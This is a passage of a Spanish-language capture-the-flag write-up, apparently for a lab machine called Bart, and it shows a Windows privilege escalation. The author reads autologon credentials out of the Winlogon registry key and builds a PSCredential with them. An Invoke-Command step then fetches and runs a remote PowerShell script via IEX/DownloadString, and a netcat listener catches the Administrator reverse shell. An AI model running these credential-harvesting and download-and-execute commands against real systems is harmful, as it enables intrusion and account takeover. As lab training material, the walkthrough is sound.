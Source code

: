 Tenemos el `SeImpersonatePrivilege` habilitado, por lo que ya debemos estar pensando en **Juicy Potato**; pero para esta vez vamos a utilizar otra vía para esclar privilegios

```bash
cd HKLM:
PS HKLM:>
cd software\Microsoft\"Windows NT"\Currentversion\Winlogon
PS HKLM:\software\Microsoft\Windows NT\Currentversion\Winlogon>
get-itemproperty . | findstr "DefaultDomainName DefaultUserName DefaultPassword"
DefaultDomainName            : DESKTOP-7I3S68E
DefaultUserName              : Administrator
DefaultPassword              : 3130438f31186fbaf962f407711faddb
PS HKLM:\software\Microsoft\Windows NT\Currentversion\Winlogon>
```

Ahora creamos nuestras variables para tener entablarnos una reverse shell como el usuario **Administrator**:

```bash
PS HKLM:\software\Microsoft\Windows NT\Currentversion\Winlogon> cd C:
PS C:\> hostname
BART
PS C:\> $username = "BART\Administrator"
PS C:\> $password = "3130438f31186fbaf962f407711faddb"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = New-Object -TypeName System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/PS.ps1') } -Credential $cred -Computer localhost
```

Antes de ejecutar el último comando, compartimos un servidor HTTP con python y nos ponemos en escucha a través del puerto 443:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.81 - - [05/Oct/2021 20:46:33] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.81] 49680
Windows PowerShell running as user Administrator on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
bart\administrator
PS C:\Users\Administrator\Documents>
```

A partir de este punto ya podemos visualizar las flags (user.txt y root.txt).
